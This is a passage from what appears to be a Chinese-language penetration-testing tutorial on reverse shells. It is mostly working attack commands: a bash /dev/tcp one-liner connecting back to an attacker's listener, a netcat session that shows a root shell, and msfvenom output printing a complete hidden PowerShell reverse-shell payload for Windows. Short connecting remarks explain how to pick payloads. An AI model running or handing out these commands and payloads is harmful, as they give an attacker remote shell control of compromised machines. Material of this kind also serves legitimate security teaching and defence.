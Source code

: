 ```none
# 失陷主机
bash -i >& /dev/tcp/rhost/rport 0>&1

# 控制端
nc -lvp lprot
```







```none
# 失陷主机
> bash -i >& /dev/tcp/172.16.214.43/4444 0>&1

# 控制端
> nc -lp 4444
root@ubuntu:~# whoami
whoami
root
```

除了 bash 也可以使用其他的语言进行反弹 shell，这里可以使用 msfvenom 生成反弹 shell，操作起来比较方便，使用 `msfvenom -l payload | grep "cmd/"`可查看可使用的 payload

比如使用 `cmd/windows/reverse_powershell` 这个 payload







```none
# 控制端
> msfvenom -p cmd/windows/reverse_powershell lhost=172.16.214.43 lport=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 1586 bytes
powershell -w hidden -nop -c $a='172.16.214.43';$b=4444;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if ($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if ($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne $null) {        break;    }}

> nc -lvp 4444
```
